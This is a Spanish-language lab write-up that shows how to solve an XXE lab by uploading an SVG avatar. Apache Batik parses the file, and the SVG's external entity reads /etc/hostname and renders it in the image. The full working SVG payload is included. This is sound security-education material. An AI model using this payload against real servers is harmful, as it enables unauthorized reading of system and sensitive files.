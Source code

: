 En esta clase seguimos explorando vectores de ataque XXE, esta vez aprovechando la funcionalidad de subida de imágenes del laboratorio. El servidor permite a los usuarios subir avatares en formato SVG, los cuales son procesados con la librería Apache Batik. Esta librería interpreta entidades definidas dentro del SVG, lo que abre la puerta a un ataque XXE clásico.

Creamos un archivo SVG en el que definimos una entidad que apunta al archivo del sistema que contiene el nombre del host. Luego, insertamos esa entidad como contenido textual del SVG. Al subir la imagen como avatar en un comentario, el servidor procesa el archivo y renderiza el contenido de esa entidad, mostrando así el nombre del host en el propio avatar. Esta información es la que se necesita para resolver el laboratorio.

Solucion
primero podemos usar la biblia
![Pasted_image_20250730205158.png](Imagenes/Pasted_image_20250730205158.png)
https://github.com/swisskyrepo/PayloadsAllTheThings

entonces aqui lo que se hace es por medio de un archivo que dentro contendra un payload nos mostrar la data 
payload (<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>)
Nuestra supuesta imagen se llamara image.svg y contendra el payload
![Pasted_image_20250730210003.png](Imagenes/Pasted_image_20250730210003.png)
y lo cargaremos en la web
![Pasted_image_20250730210143.png](Imagenes/Pasted_image_20250730210143.png)
aqui podemos ver nuestro comentario
![Pasted_image_20250730210223.png](Imagenes/Pasted_image_20250730210223.png)
aqui poco se ve la imagen pero lo abrimos en una nueva pestaña
![Pasted_image_20250730210259.png](Imagenes/Pasted_image_20250730210259.png)
y obtenemos dentro de la imagen el hostname
